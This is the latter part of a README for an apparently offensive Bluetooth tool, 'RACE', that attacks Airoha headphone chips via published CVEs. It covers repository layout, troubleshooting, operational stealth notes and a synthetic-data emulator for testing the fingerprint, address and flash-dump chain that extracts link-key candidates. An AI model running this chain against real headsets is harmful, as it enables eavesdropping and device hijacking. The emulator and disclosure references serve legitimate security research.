> Status above describes **code present in this tree**, verified by reading the call graph — not by a hardware test run. Two notes before you trust an unattended chain — one now fixed offline, one still open:
>
> - **Response plumbing (fixed, verified offline).** The notify handler used to queue the *coroutine* returned by `read_gatt_char()` and ignored bleak's `(sender, data)` arguments, so a real reply could reach `parse_race_response()` as a coroutine. The handler now queues the notification bytes directly and `start_notify()` is awaited. The virtual emulator exercises `BLETransport`, `fingerprint()` and `auto_exploit()` end to end in `tests/test_emulator.py`; a hardware pass is still worth doing for RF-specific behaviour.
> - **Deep-scan flag.** `scan --deep` is honoured inside `scan_for_targets()`, but `_build_config()` drops its `deep` argument; the flag never reaches `RACEConfig`. It works today only because the module takes it as a separate parameter.

---

## 12 · Repository layout

```
RACE/
├── race.py                  # click CLI — presentation only (+ `emulate`)
├── test_scan.py             # 5 s BleakScanner smoke test, dependency-free
├── pyproject.toml           # packaging, dependencies, ruff/mypy/pytest config
├── core/                    # reserved namespace (empty package)
│   └── __init__.py
├── emulator/                # virtual headphone: peripheral, faults, explorer
│   ├── device.py            # simulated GATT device + frame dispatch
│   ├── responses.py         # synthetic RACE payloads and status words
│   ├── client.py            # bleak-compatible in-process client
│   ├── session.py           # raw frame exchange primitive
│   ├── faults.py            # configurable error injection
│   ├── explorer.py          # scripted / interactive protocol trace
│   ├── cli.py               # shared CLI used by `-m emulator` and race.py
│   └── __main__.py          # `python3 -m emulator`
├── tests/
│   ├── test_emulator.py     # 51 stdlib-only emulator/integration tests
│   ├── test_capture.py      # pcap/btsnoop layout + transport capture hooks
│   ├── test_cli.py          # group options → session config wiring
│   └── test_packet.py       # frame codec tests
├── modules/
│   ├── discovery.py         # name heuristic + service probing
│   ├── fingerprint.py       # 0x1E08 build read
│   ├── exploit.py           # fingerprint → BD_ADDR → flash window
│   └── auto_hunter.py       # discovery → exploitation chain
├── transports/
│   ├── __init__.py
│   └── ble.py               # GATT client, notify drain, request/response
└── utils/
    ├── capture.py           # pcap/btsnoop wire capture (Wireshark, btmon)
    ├── config.py            # RACEConfig: UUIDs, heads, timeouts
    └── packet.py            # frame encode/decode, opcodes, error codes
```

> [!NOTE]
> `transports/classic.py` and `core/session.py` do **not** exist in this tree; Classic/RFCOMM work is tracked in [§11](#11--implementation-status). The BLE path is the only one with a live transport.

---

## 13 · Troubleshooting

| Symptom | Likely cause | Fix |
|:--------|:-------------|:----|
| `SERVICE_NOT_FOUND` | Device is not Airoha, or RACE service is disabled in firmware | Confirm the peer with `hunt`; check the SoC against [§01](#01--vulnerability-surface) |
| `NO_RESPONSE` | RX notifications not armed, or the device only answers on a specific ATT MTU | Verify `0x1202` notify is enabled; re-issue the command once |
| `BAD_RESPONSE` | Wrong opcode for the firmware generation, or a reply that never reached the parser as bytes (see [§11](#11--implementation-status)) | Re-fingerprint with `--action fingerprint`; cross-check the SDK build string |
| Connection stalls | BlueZ D-Bus contention with a phone already paired to the target | Disconnect the paired host, or retry after the advertising window reopens |
| `Operation not permitted` | Adapter needs raw HCI access | Run with `sudo`, or grant `CAP_NET_RAW` + `CAP_NET_ADMIN` |
| Scan returns nothing | No discoverable advertisers in range | Increase `--timeout`; BLE advertisers rotate addresses — rescan |
| No capture file appears | The session never opened a transport (failed connect, or `scan`/`hunt`, which only enumerate) | Use `--capture` with `exploit`/`info`/`huntandpwn`/`emulate`; check the `Wire capture` log line for the resolved path |
| `BLEAK_MISSING` | `bleak` is absent and the client had no injected factory | `pip3 install -e .`, or run `python3 -m emulator` |
| `already has a central connected` | Two virtual clients share one `VirtualHeadphone` | Close the first transport/session; the emulator models one central |
| Emulator shows `-- no response --` | A `silent`, `disconnect` or over-timeout `slow` fault fired | Inspect `faults`, lower `--read-timeout`, or `clear-faults` in the explorer |

**Operational notes.** Passive scanning leaves no trace on the target. Every `connect`, `--deep`, and `hunt` step does: it opens an ATT carrier and is visible in the device's connection log. Budget a scan window before staging; a headset that is actively streaming to a phone typically will not accept a second central.

---

## 14 · Virtual headphone emulator

`emulator/` is an offline RACE peripheral for protocol work: it models the `0x1200` GATT service, answers every implemented opcode with **synthetic** data, and injects faults on demand. There is no radio, no headset, and no access to real key material — though the frames it produces are real enough to capture ([§06](#06--command-data-path)).

### Scope and safety

- **Everything is generated locally.** Build strings start with `EMU`, Classic addresses use documentation-style values, and flash "key" blocks are marked `EMUK` — they are designed to trigger the framework's candidate heuristic, not to resemble credentials.
- **In-process GATT model, not an OS advertiser.** It reproduces service discovery, characteristic resolution, writes, notifications, delays, malformed frames and dropped links. It does **not** reproduce pairing/bonding, Classic RFCOMM, PHY/MTU negotiation, connection parameters or RF range. Those still need hardware.
- **No radio side effects.** Nothing in `emulator/` imports `bleak`, opens a socket or touches an adapter; it runs on a bare Python interpreter.

### Entry points

```bash
python3 -m emulator                                   # scripted trace, stdlib only
python3 -m emulator --profile generic-airoha --json   # machine-readable report
python3 -m emulator -i                                # interactive explorer
python3 -m emulator --list-profiles

python3 race.py emulate                               # same engine, click front end
python3 race.py emulate --command build --command 'flash 0x1A000'
python3 race.py emulate --action dump                 # real auto_exploit() over the virtual link

# offline wire capture: replay the virtual link in Wireshark
python3 race.py --capture /tmp/virtual.pcap emulate --action dump
```

The trace prints each frame as bytes next to its decoded meaning:

```text
[build]
REQ  05 00 02 00 08 1E                                        | request build(0x1E08) len=2 head=0x05
RSP  05 01 3F 00 08 1E 45 4D 55 20 41 42 31 35 ... (+53 B)    | response build(0x1E08) len=63 head=0x05 | "EMU AB1585 SDK 1.2.3 ... profile=sony-wh1000xm5"
[bd_addr]
REQ  05 00 02 00 05 0C                                        | request bd_addr(0x0C05) len=2 head=0x05
RSP  05 01 08 00 05 0C A0 12 34 56 78 90                      | response bd_addr(0x0C05) len=8 head=0x05 | BD_ADDR A0:12:34:56:78:90
```

### Profiles

| Key | Advertised name | Address | Notes |
|:----|:----------------|:--------|:------|
| `sony-wh1000xm5` | WH-1000XM5 | `A0:12:34:56:78:90` | default; answers every command |
| `sony-wf1000xm5` | WF-1000XM5 | `A0:12:34:56:78:91` | earbud baseline for timeout exercises |
| `marshall-major-v` | MAJOR V | `B4:0E:2D:11:22:33` | different seeded flash image |
| `jbl-live-buds-3` | Live Buds 3 | `C8:5A:CF:44:55:66` | fault-comparison baseline |
| `bose-qc-earbuds-3` | QuietComfort Earbuds III | `D4:9C:28:77:88:99` | full service table |
| `generic-airoha` | RACE Reference Design | `E8:9F:6D:AA:BB:CC` | neutral profile for protocol teaching |

Profiles change identity, build banner, RSSI and the seed for synthetic flash content. They do not change the protocol implementation.

### Configurable faults

A fault rule matches an opcode (or every opcode) and changes what the peripheral does. The spec grammar is:

```text
SPEC := [TARGET:]KIND[:PROBABILITY[#COUNT]]
TARGET := * | <opcode 0x1E08> | <name: build, flash_read, ...>
```

| Kind | Wire effect | What the client sees |
|:-----|:------------|:---------------------|
| `silent` | no notification at all | `NO_RESPONSE` after `read_timeout_s` |
| `slow` | valid frame after a delay (`slow:2.5s`; default 6 s) | `NO_RESPONSE` if the delay exceeds the read timeout |
| `truncate` | response cut to 3 bytes | `BAD_RESPONSE` (`TOO_SHORT` inside) |
| `bad_head` | head flipped to an unknown value | `BAD_RESPONSE` (`BAD_HEAD`) |
| `bad_type` | type byte `0x02` | `BAD_RESPONSE` (`BAD_TYPE`) |
| `bad_length` | length field zeroed | `BAD_RESPONSE` (`BAD_LENGTH`) |
| `garbage` | 8 non-RACE bytes | `BAD_RESPONSE` (`BAD_HEAD`) |
| `disconnect` | link dropped, no reply | `NO_RESPONSE`; the next write fails |
| `status` | valid frame carrying a status word (`status:0x0002`) | caller reads the injected status |
| `duplicate` | the same frame sent twice | first is consumed; a stale notification stays queued |

```bash
python3 -m emulator --command build --error build:silent --read-timeout 0.1
python3 -m emulator --command 'flash 0x1A000' --error flash_read:bad_length
python3 -m emulator --command 'flash 0x1A000' --error 'flash_read:bad_length:0.5#2'
python3 -m emulator --command build --error '*:garbage:0.2'
python3 -m emulator --command build --error '0x0403:slow:2.5s' --read-timeout 1
python3 -m emulator --error 'flash_read:status:0x0002'
```

Rules are evaluated in order, first match wins; `PROBABILITY` is drawn per request and `#COUNT` caps how many times a rule may fire. At the interactive prompt, add rules at runtime with `fault 0x1E08:silent`, inspect them with `faults`, and remove them with `clear-faults`. `FaultPlan` uses a seeded RNG, so a session is reproducible unless `--seed` changes it.

### Synthetic response conventions

| Command | Reply payload |
|:--------|:--------------|
| Build `0x1E08` | UTF-8 `EMU ...` banner, NUL-terminated |
| BD_ADDR `0x0C05` | exactly 6 bytes |
| Flash read `0x0403` | `<status:u16le><offset:u32le><page data>` — a 6-byte prefix, then 256-byte pages |
| Flash write `0x0404` | `<status:u16le>` |
| RAM read `0x1680` | `<status:u16le><address:u32le><data>` |
| RAM write `0x1681` | `<status:u16le>` |
| FOTA `0x1E0F` | echoes head `0x15`, `<status:u16le>` |
| Unknown opcode | `<status:u16le>` = `0x0001` (configurable with `answer_unknown=False`) |

Status words: `0x0000` OK · `0x0001` unsupported · `0x0002` out of range · `0x0003` bad request · `0x0004` read-only · `0x7E01` injected fault.

The flash image is 128 KiB of zeros with deterministic `EMUK` + 12-byte blocks at `0x1A020`, `0x1A070` and `0x1B020`, plus settings/calibration markers. `auto_exploit --action dump` therefore reports "Potential Link Key" candidates — that is the heuristic working as designed; the `EMUK` prefix is the proof they are synthetic. Use `--read-only` to reject flash and RAM writes with `READ_ONLY`.

### Explorer commands

| Command | Effect |
|:--------|:-------|
| `build`, `bdaddr` | send the corresponding RACE read |
| `flash OFFSET [COUNT]` | flash page read; e.g. `flash 0x1A000` |
| `write-flash OFFSET HEX` | flash write; e.g. `write-flash 0x1A020 DEADBEEF` |
| `ram [ADDR] [LEN]`, `write-ram ADDR HEX` | RAM read/write |
| `fota [HEX]`, `cmd OPCODE [HEX]`, `send HEX` | raw FOTA, named/numeric opcode, or complete frame |
| `fault SPEC`, `faults`, `clear-faults` | manage fault injection live |
| `dump OFFSET [LEN]` | hexdump the local synthetic flash (no radio traffic) |
| `scan`, `profiles`, `state`, `reset`, `help`, `quit` | inspect the simulation |

`--script FILE` runs the same commands non-interactively, one per line.

### Python API

```python
import asyncio

from emulator import FaultKind, FaultRule, VirtualHeadphone
from transports.ble import BLETransport
from utils.config import RACEConfig
from utils.packet import CMD_GET_BUILD


async def main() -> None:
    device = VirtualHeadphone(
        "sony-wh1000xm5",
        errors=[FaultRule(cmd=CMD_GET_BUILD, kind=FaultKind.SLOW, delay_s=0.1)],
    )
    config = RACEConfig(read_timeout_s=0.5)
    async with BLETransport(
        device.address,
        config=config,
        client_factory=lambda _address: device.client(),
    ) as transport:
        print(await transport.send_command(CMD_GET_BUILD))


asyncio.run(main())
```

`client_factory` is a transport-level seam: any object implementing the bleak methods used by `BLETransport` works. `fingerprint()` and `auto_exploit()` accept the same keyword, which is how `race.py emulate --action {fingerprint,dump,full}` exercises the real module code without hardware.

### Tests

```bash
python3 -m unittest discover -s tests -t . -v
```

The 51 emulator tests cover frame encoding, every synthetic response, fault selection and effects, service/characteristic failure modes, `BLETransport` integration, `fingerprint()`/`auto_exploit()`, the explorer and the CLI. They use only the standard library — no radio, no `bleak`, no pytest plugin required — and the repository's `pytest` configuration collects them alongside `tests/test_packet.py`.

### Limits

- **Discovery is not emulated.** `scan` and `hunt` still require a real adapter because they enumerate advertisers over HCI. The emulator starts at the GATT connection boundary.
- **One central at a time.** A second `VirtualBleakClient.connect()` raises while the first is attached, mirroring a headset that already has a phone.
- **No pairing, bonding or Classic transport.** Those are outside the RACE application protocol.
- **No ATT fragmentation.** A flash-page reply is delivered as one notification regardless of MTU; a real device fragments at the negotiated ATT MTU, and the client currently assumes a single write.
- **Timing is event-loop scheduling.** `slow` demonstrates timeout handling; it is not an RF timing model.
- **Not a hardware substitute.** Synthetic replies prove client logic and protocol handling, not firmware behaviour. Validate conclusions on owned hardware, under authorization.

---

## 15 · References

- [Full disclosure: Bluetooth Headphone Jacking](https://insinuator.net/2025/12/bluetooth-headphone-jacking-full-disclosure-of-airoha-race-vulnerabilities/) — protocol analysis, affected models, coordination timeline
- [CVE-2025-20700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-20700) · [CVE-2025-20701](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-20701) · [CVE-2025-20702](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-20702)
- [bleak](https://github.com/hbldh/bleak) — cross-platform BLE GATT client
- [BlueZ](https://www.bluez.org/) — Linux Bluetooth stack

---

<div align="center">

**MIT License** · © 2026 ek0ms savi0r · Church of Malware

<sub>Research artifact. For authorized security testing only.</sub>

</div>
